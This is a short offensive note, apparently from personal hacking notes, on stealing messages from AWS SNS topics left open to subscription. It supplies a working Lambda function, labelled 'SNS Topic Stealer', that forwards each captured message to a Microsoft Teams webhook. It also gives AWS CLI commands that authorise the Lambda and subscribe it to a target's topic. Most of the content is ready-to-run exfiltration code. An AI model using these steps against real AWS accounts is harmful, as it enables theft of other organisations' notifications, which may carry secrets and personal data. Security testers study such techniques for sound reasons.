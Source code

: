```yaml
---
is_a: "[[note]]"
topics: "[[hacking aws]]"
---
```

# Notes
Hacking AWS SNS

## Exploiting open SNS topics
If SNS topics are open to be subscribed to, it's fairly easy to connect that via a webhook into a chat program to capture.
* Create a [lambda function](https://aws.amazon.com/premiumsupport/knowledge-center/sns-lambda-webhooks-chime-slack-teams/) that accepts SNS events and forwards them to your chat webhook of choice.

This example uses Microsoft Teams, sending each SNS message in a [pretty card](https://docs.microsoft.com/en-us/microsoftteams/platform/webhooks-and-connectors/how-to/connectors-using?tabs=cURL#send-adaptive-cards-using-an-incoming-webhook) format
```
import urllib3 
import json
http = urllib3.PoolManager()
webhook_url = ""

def lambda_handler(event, context): 
    for sns_message in event['Records']:
        # Chat message in Microsoft Teams adaptive card webhook format
        chat_message = {
          "type": "message",
          "attachments": [
            {
              "contentType": "application/vnd.microsoft.card.adaptive",
              "contentUrl": None,
              "content": {
                "$schema": "http://adaptivecards.io/schemas/adaptive-card.json",
                "type": "AdaptiveCard",
                "version": "1.0",
                "body": [
                  {
                    "type": "Container",
                    "items": [
                      {
                        "type": "TextBlock",
                        "text": "SNS Topic Stealer",
                        "weight": "bolder",
                        "size": "medium"
                      },
                      {
                        "type": "FactSet",
                        "facts": [
                          {
                            "title": "MessageId:",
                            "value": sns_message['Sns']['MessageId']
                          },
                          {
                            "title": "TopicArn:",
                            "value": sns_message['Sns']['TopicArn']
                          },
                          {
                            "title": "Subject:",
                            "value": sns_message['Sns']['Subject']
                          },
                          {
                            "title": "Message:",
                            "value": sns_message['Sns']['Message']
                          }
                        ]
                      }
                    ]
                  }
                ]
              }
            }
          ]
        }
        encoded_msg = json.dumps(chat_message).encode('utf-8')
        resp = http.request('POST', webhook_url, body=encoded_msg)
        print({
            "message": event['Records'][0]['Sns']['Message'], 
            "status_code": resp.status, 
            "response": resp.data
        })
```

* Edit the webhook url, save the lambda, and test with a SNS Notification test message
* Give the target account permissions to invoke the lambda via SNS

```
aws lambda add-permission --function-name arn:aws:lambda:us-east-1:123456789012:my-lambda-stealer \
--source-account 123456789012 \
--statement-id sns-to-lambda-1 --action "lambda:InvokeFunction" \
--principal sns.amazonaws.com
```

* Subscribe to the topic using AWS CLI, changing the topic and lambda ARNs

```
aws sns subscribe \
--topic-arn arn:aws:sns:us-east-1:123456789012:topic-to-steal \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:321456789666:my-lambda-stealer
```

* Test to see if messages arrive
